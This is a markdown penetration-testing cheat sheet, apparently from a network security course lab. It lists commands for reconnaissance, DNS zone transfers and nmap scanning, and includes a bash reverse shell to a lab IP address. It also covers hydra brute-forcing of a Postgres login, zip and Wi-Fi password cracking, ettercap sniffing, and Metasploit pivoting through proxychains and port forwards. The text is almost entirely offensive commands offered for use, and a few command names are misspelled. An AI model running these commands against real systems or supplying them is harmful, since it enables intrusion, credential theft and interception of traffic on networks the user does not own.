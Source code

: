 # NSP cheatsheet

## ip

> ip a

## Calculate the network

> ipcalc \<ip>

## default gateway

> ip r

## dns

> nslookup

or

> cat /etc/resolv.conf 

getting dns records if possible

> dig axfr \<dnsnameserver> @\<ip>

or

> dnsrecon -d zonetransfer.me -t axfr

## Nmap

script location:
> /usr/share/nmap/scripts/

scanning a range:

> sudo nmap 192.168.52.1-100

scanning a host:

> sudo nmap -p- -sV -O \<ip>

## smb

listing fileshares:
> smclient -L \<ip>

connecting to a fileshare:
> smbclient \\\\\<ip>\\\<fileshare>

## Reverse shell

start listener:
>nc -lvp 6666

start reverse shell:
> bash -i >& /dev/tcp/192.168.53.25/6666 0>&1

## Database password cracking

cracking:
> hydra -L NSP/postgres.txt -P NSP/pokemon-list.txt 192.168.52.60 postgres

connecting:
> psql -U postgres -W -h 192.168.52.60

## Ldap

finding domain controller:
> nmap -p 389 -sV 192.168.52.1-100

domain info:
> nmap -p 389 --script ldap-rootdse 192.168.52.4

## Cracking

generating wordlist:
> crunch 9 9 0123456789 -t FLAG-%%%% > flag.txt

extracted hash:
> zip2john FLAG-.zip > flag.hash`

cracking password:
> john flag.hash --wordlist=flag.txt

showing password:
> john flag.hash --show

## Wifi cracking

cracking:

> aircrack-ng -w crack-crunch.txt wificapturefilehere.pcap

in wireshark:
> packet > protocol prefs > IEEE Wireless LAN > Decryption keys > add wpa-pwd


## Sniffing

ettercap -T /192.168.52.70// /192.168.52.23//

## Pivoting

start reverse shell listener:

> see reverse shell

add a user:

> adduser arman

check user:

> cat /etc/passwd

check if the host has a ssh port:

> nmap \<ip> -sV

ssh:

> ssh arman@\<ip> -p \<port> 

check interfaces:

> ip a

metasploit and search for ssh (sshexec):

>mfsconsole

>search ssh

after you're in the meterpreter shell:

> bg

in metasploit:

> route add \<newnetworkaddress> \<sessionid> 

> search socks

> use server/proxy_server

> run -j

> jobs

> search ping_sweep

> use post/multi/gather/ping_sweep

> session

> set session \<sessionid>

> set rhosts \<routerange>

>run

scan new host:

> proxychains nmap \<ip> -sT -Pn

get page from port 80:

> proxychains curl \<ip>

in meterpreter session:

> sessions

get back into session:

> session -i \<sessionid>

create port forward:

> portfwd add -l 8080 -p 80 -r \<ip>

> ssh -L 80:localhost:8080 \<username>@\<kaliip>